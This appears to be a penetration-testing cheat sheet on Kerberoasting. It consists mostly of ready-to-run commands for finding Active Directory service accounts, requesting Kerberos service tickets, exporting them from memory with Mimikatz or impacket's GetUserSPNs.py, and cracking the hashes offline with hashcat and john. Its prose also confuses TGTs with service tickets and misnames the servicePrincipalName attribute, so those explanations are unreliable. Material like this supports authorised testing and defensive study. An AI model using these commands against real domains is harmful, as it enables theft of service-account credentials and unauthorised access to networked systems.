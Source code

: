 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable users in domain

```
Get-NetUser -SPN | select serviceprincipalname    //Powerview
setspn -T <domain> -Q */*                         //Builtin
```

Enumerate with LDAP Powershell module

```
$ldapFilter = "(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))";
$domain = New-Object System.DirectoryServices.DirectoryEntry;
$search = New-Object System.DirectoryServices.DirectorySearcher;
$search.SearchRoot = $domain;
$search.PageSize = 1000;
$search.Filter = $ldapFilter;
$search.SearchScope = "Subtree";
$results = $search.FindAll()
$Results = foreach ($result in $results){
$result_entry = $result.GetDirectoryEntry();
$result_entry | Select-Object @{
Name = "Username"; 
Expression = { $_.sAMAccountName }},@{Name = "SPN"; Expression = { $_.servicePrincipalName | Select-Object -First 1 }}}
$Results;
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Enumerate vulnerable accounts. Requires a valid user and password

```
GetUserSPNs.py <domain>/<user>:<pass>            #check user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>    #query the DC
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <DC IP> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
